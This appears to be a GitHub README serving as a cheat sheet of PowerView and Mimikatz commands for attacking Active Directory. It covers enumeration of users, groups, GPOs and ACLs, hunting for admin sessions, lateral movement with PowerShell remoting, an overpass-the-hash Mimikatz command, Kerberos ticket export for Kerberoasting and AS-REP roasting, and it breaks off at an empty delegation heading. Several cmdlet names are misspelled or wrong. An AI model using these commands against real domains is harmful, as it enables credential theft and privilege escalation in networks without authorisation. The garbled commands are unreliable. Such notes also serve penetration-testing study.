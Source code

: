 # Active-Directory
This Repository will contains various tools,scripts,commands used in Active Directory Enumeration and Exploitation


## Domain Enumeration
```
Get-NetDomain: it will Give  basic info about the other domain
Get-Net-Domain -Domain abc.local : it will give info about a domain "abc.local"
Get-DomainSID: Will give SID of current domain
Get-DomainPolicy: Will give info about the policies if the current doamin.
Get-NetDomainController: Info about the domain controller
```
## User Enumeration
```
Get-netuser: List all users in the current domain
Get-netuser -username test123 : Give info about the user test123
Get-UserProperty: List all properties of the user in current domain.
Get-UserProperty -properties pwdlastse: It will give info about the a property pwdlastset of all users in current domain.
Get-NetLoggedon -Computername server16 : It will tell all the users which are actively logged on to the computer.
Get-loggedonLocally : It will list all users who are logged in locally on the computer.
Get-LastLoggedon -Computername server016 : It will list user which have last logged on to the computer.
```
## Computer Enumeration

```
Get-NetComputer : It will list down all the computer object in the domain
Get-Netcomputer -FullData : It will list down all the properties of all computer objects in the domain.
Get-Netcomputer -OperatingSystem "*Server 2016*" : It will list down all the computer objects having Server 2016 as their operating system.
Get-Netcomputer -FullData | select OperatingSystem : It will list down all the OperatingSystem Property of all the computer objects.
Get-Netcomputer -Ping : It will check which of the computer objects are live in the domain.

```

## Group Enumeration

```
Get-NetGroup: It will list down all the groups 
Get-Netgroup 'Domain Admin' : It will check whether the Domain Admin group exists or not.
Get-Netgroup -GroupName "*admin*": It will return all those groups whose name contain the word "admin".
Get-NetgroupMember -groupname 'Domain Admin' : It will list down the members of the domain admins.
Get-Netgroup -Username "studentx" : Get the group membership of the user "studentx"
Get-netlocalgroup -computername xyz-dc.abc.local" List all local group on a machine.
```

## GPO Enumeration

### Group Policy allows you to centralize the management of computers on your network without having to physically go to and configure each computer individually. 
```
Get-NetGPO : List all the GPO in the current domain
Get-NetGPO -cpmputername xyz-dc.acbc.local : Get all GPOs of a particuler machine
Find-GPOComputerAdmin -computername xz-dc.abc.local: Get users which are in local group of a machine Using GPO

```
## OU Enumeration
```
Get-NetOU -Fulldata : Give info about the OUs in a domain.
```

## ACL Enumeration

### ACL Stands for Access Control List , which comprises of ACEs, Access Control Entries. ACEs corresponds to individual permissions or audit access , which means ACEs will tell who has what permission on an object

```
Get-ObjectACL -Samaccountname studentx  -ResolveGUIDs : Will give ACL associated with user "studentx".
Invoke-ACLScanner -ResolveGUIDs: will give all the interesting ACEs.
```

## Interesting User Hunting

```
Find-LocalAdminAccess  -Verbose : It will give you list of all machines in current domain 
Invoke-EnumerateLocalAdmin -verbose: Find all local admins on all machine  of current domain.

Invoke-Userhunter: Find computer where a domain admin has sessions.
Invoke-Userhunter  -GroupName  "RDPUsers" : Find computers where a "RDPUsers" has sessions.
Invoke-Userhunter -CheckAccess : To confirm admin access
```
## Lateral Movement

- New-Pssession -Computername xz-dc.abc.local -Credential $cred : Will give new powershell session on computer xz-dc.abc.local , the variable "cred" contains the credential for the target machine.

- Invoke-command -Scriptblock {whoami} -computername xz-dc.abc.local : It will execute command whoami on computer xz-dc.abc.local , for asking for credentiall add parameter -Credential.

- Invoke-command -Scriptblock ${function:Invoke-Mimikatz}  -computername xz-dc.abc.local :  It will execute Invoke-Mimikatz function on target machine , if mimikatz is loaded into it.

- Invoke-Mimikatz -command '"sekurlsa::pth /user:studentx /domain:abc.local /ntlm: <ntlm hash of user studentx> /run:powershell.exe"' : This method is known as OverPasstheHash attack . This will open a new powershell process as studentx user.
  
 
## Privilege Escalation 

### Kerberos
  
- Find User Account Used as Service Account
-      Get-NetUser -SPN
- Requesting a TGS
-      Add-Type -AssemblyName System.IdentityModel 
-      New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName"
- Export all ticket using Mimikatz
-      Invoke-Mimikatz -Command '"kerberos::list /export"'
- Cracking the hash using john or hashcat
  
### AS-REP Roasting

- Enumerating Account with Preauth Disabled
-    Get-DomainUser -PreauthNotRequired -Verbose
- Requesting Encrypted AS-REP for offline brueforcing
-    Get-ASRepHash -Username studentx -verbose
  
### Unconstrained Dlegation
  

